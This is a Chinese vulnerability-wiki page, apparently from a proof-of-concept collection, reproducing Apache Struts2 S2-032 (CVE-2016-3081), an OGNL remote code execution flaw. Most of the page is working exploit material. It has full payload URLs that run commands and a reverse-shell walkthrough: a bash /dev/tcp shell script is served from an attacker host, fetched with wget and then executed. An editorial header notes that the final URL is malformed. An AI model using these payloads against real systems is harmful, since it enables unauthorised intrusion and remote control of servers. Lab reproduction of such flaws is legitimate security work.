


# Apache Struts2 S2-032 远程代码执行漏洞 CVE-2016-3081

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：动态方法调用DMI启用；2.3.20–2.3.28且排除2.3.20.3/2.3.24.3；示例Linux及下载能力
- 证据范围：method前缀触发表达式条件明确，版本排除保留，末尾执行URL有硬错误。

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 执行shell参数为bash%shell.sh，缺正确空格编码，不能执行所示命令
- Struts重复拼写，缺具体测试版本/配置代码
- 缺修复版本及关闭DMI缓解建议
- 下载shell与相对路径执行依赖cwd，文件残留应标明

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Struts2 在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用 `method:<name>` 的方式来调用名字是 `<name>` 的方法，而这个方法名将会进行 OGNL 表达式计算，导致远程命令执行漏洞。

漏洞详情:

- https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞影响

影响版本: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

## 环境搭建

Vulhub 执行以下命令启动 s2-032 测试环境：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到默认页面。

## 漏洞复现

直接请求如下 URL，即可执行 `id` 命令：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```



### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```shell
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=wget%20192.168.174.128/shell.sh
```

执行 shell.sh 文件的命令为：

```shell
bash shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=bash%shell.sh
```

成功接收反弹 shell：




---

> 来源：Threekiii/Awesome-POC
